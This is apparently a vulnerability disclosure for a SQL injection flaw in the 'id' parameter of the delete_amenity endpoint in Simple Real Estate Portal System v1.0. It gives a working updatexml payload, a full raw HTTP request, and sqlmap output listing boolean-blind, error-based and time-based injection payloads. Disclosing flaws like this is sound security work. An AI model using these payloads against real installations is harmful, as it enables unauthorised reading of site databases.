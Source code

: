 ## Simple Real Estate Portal System v1.0 has a SQL injection vulnerability

vendors: https://www.sourcecodester.com/php/15184/simple-real-estate-portal-system-phpoop-free-source-code.html

Vulnerability file: /reps/classes/Master.php?f=delete_amenity

Vulnerability location: /reps/classes/Master.php?f=delete_amenity , id

[+] Payload: id=7' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ //id is Injection point 

```
POST /reps/classes/Master.php?f=delete_amenity HTTP/1.1
Host: 192.168.1.19
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/reps/admin/?page=amenities
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=b7n0d4rju88m3p50kmalnvn6ti
Connection: close

id=7' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ //id is Injection point
```

![image](https://user-images.githubusercontent.com/54017627/160310392-e3bb194b-07ee-4934-8cff-e17f01e3408c.png)

```sql
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=7' RLIKE (SELECT (CASE WHEN (8101=8101) THEN 7 ELSE 0x28 END))-- gXyQ

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=7' AND (SELECT 6381 FROM(SELECT COUNT(*),CONCAT(0x7170787a71,(SELECT (ELT(6381=6381,1))),0x716b6a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- LaZi

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=7' AND (SELECT 2258 FROM (SELECT(SLEEP(5)))pvPg)-- dMCC
---
```
![image](https://user-images.githubusercontent.com/54017627/160310243-07e9650b-126c-4d59-99d9-07c81991610c.png)
